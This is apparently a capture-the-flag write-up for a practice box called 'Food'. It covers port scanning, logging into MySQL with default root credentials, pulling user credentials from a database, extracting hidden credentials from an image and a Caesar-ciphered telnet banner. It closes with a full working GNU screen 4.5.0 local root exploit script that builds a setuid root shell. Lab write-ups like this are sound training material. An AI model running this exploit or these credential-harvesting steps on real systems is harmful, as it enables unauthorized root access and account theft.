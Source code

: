# KOTH

## Food 

Food was the first box that I rooted. This was a pretty fun and easy box.


First things first, a good old nmap scan, I used `nmap -sV [ip] -p-` so i could see the results of everything.


```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3306/tcp  open  mysql   MySQL 5.7.29-0ubuntu0.18.04.1
9999/tcp  open  abyss?
15065/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
16109/tcp open  unknown
46969/tcp open  telnet  Linux telnetd

```

You're given some ports, a http, unknown, and a telnet.


I decided to ignore the http, and go to mysql. Using the old default creds of `root:root`, I ran `mysql -h [ip] -u root -p` and got into the mysql server. 

After using `show databases;`

I changed to the Users database, and decided to run `select * from User;`

This gave me the creds for ramen and also gave me a flag. We love flags :)

<hr>

I wanted to get another user, as ramen was a bit crap in terms of privs. I then went to the second port, and guessed to go to a website with the port(putting http://[ip].16109 into my browser.) This gave me a picture.

Maybe there was some hidden data inside the image, so I ran `binwalk -e [filename]` on the image. I got a gzip, so I went into it and ran `binwalk -e [filename]` again.  This gave me pasta's creds.

I used SSH on pasta, and found some interesting things, that we'll get back to later :p


<hr> 

Finally, the final port, probably the easiest.

After running a quick telnet [IP] 46969, 

I get greeted by tccr:uwjsasqccywsg, which is obviously encrypted with a caesar cipher. Decrypting this, I get food creds. more creds for the collection!


<hr> 

Going back to pasta, I wanted to get a root shell. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md is an amazing resorce for helping to priv esc on linux. 

Using this to help, I ran `find / -uid 0 -perm -4000 -type f 2>/dev/null` to see some of those sweet sweet binaries.


Some of the binaries seemed sus, so I ran a great script from here: https://www.exploit-db.com/exploits/41154

```sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

I ran this, and decided to run a quick whoami to see who I was, and I was root.


Now go out, and blue team!
